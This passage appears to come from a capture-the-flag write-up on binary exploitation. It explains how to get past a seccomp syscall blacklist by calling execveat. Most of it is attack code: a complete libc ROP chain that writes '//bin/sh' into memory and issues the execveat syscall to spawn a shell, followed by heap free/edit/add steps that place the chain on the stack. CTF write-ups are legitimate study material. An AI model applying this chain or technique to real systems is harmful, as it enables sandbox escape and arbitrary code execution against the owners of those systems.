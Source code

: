 This means the listed syscalls are blacklisted and can not be called without crashing the process. We can bypass these restrictions by using `execveat`, which has the following signature:

```
 int execveat(int dirfd, const char *pathname,
                    char *const argv[], char *const envp[],
                    int flags);
```

The following ropchain sets the registers accordingly and calls the function:

```python
ropnop = p64(libc_base + 0x000000000003148f)
rop = b""
rop += ropnop
rop += ropnop
rop += p64(libc_base + (0x0000000000030e4d)) # 0x0000000000030e4d: pop r12; ret;
rop += b'//bin/sh'
rop += p64(libc_base + (0x0000000000026a25)) # 0x0000000000026a25: pop r13; ret;
rop += p64(libc_base + (0x00000000001e41a0))
rop += p64(libc_base + (0x00000000000a0da8)) # 0x00000000000a0da8: mov qword ptr [r13], r12; pop r12; pop r13; pop r14; ret;
rop += p64(0xdeadbeefdeadbeef)
rop += p64(0xdeadbeefdeadbeef)
rop += p64(0xdeadbeefdeadbeef)
rop += p64(libc_base + (0x0000000000030e4d)) # 0x0000000000030e4d: pop r12; ret;
rop += p64(0x0000000000000000)
rop += p64(libc_base + (0x0000000000026a25)) # 0x0000000000026a25: pop r13; ret;
rop += p64(libc_base + (0x00000000001e41a8))
rop += p64(libc_base + (0x00000000000a0da8)) # 0x00000000000a0da8: mov qword ptr [r13], r12; pop r12; pop r13; pop r14; ret;
rop += p64(0xdeadbeefdeadbeef)
rop += p64(0xdeadbeefdeadbeef)
rop += p64(0xdeadbeefdeadbeef)
rop += p64(libc_base + (0x0000000000026542)) # 0x0000000000026542: pop rdi; ret;
rop += p64(0)
rop += p64(libc_base + (0x0000000000026f9e)) # 0x0000000000026f9e: pop rsi; ret;
rop += p64(libc_base + (0x00000000001e41a0))
rop += p64(libc_base + (0x000000000012bda6)) # 0x000000000012bda6: pop rdx; ret;
rop += p64(0)
rop += p64(libc_base + (0x000000000012bda5))  # pop r10; ret;
rop += p64(0)
rop += p64(libc_base + (0x000000000010b31e))  # pop rcx; ret;
rop += p64(0)
rop += p64(libc_base + (0x0000000000047cf8)) # 0x0000000000047cf8: pop rax; ret;
#rop += p64(0x4000003b)
rop += p64(0x142)
rop += p64(libc_base + (0x00000000000cf6c5)) # 0x00000000000cf6c5: syscall; ret;
```

We use the same technique as before to write the chain to the stack at the specified address:

```python
free(7)
free(8)
for i in range(8-2, 8-9, -1):
    edit(1, b'X'*i + p64(rop_loc)[:6]) 
add(0x128, "A"*8)
add(0x128, rop)
```
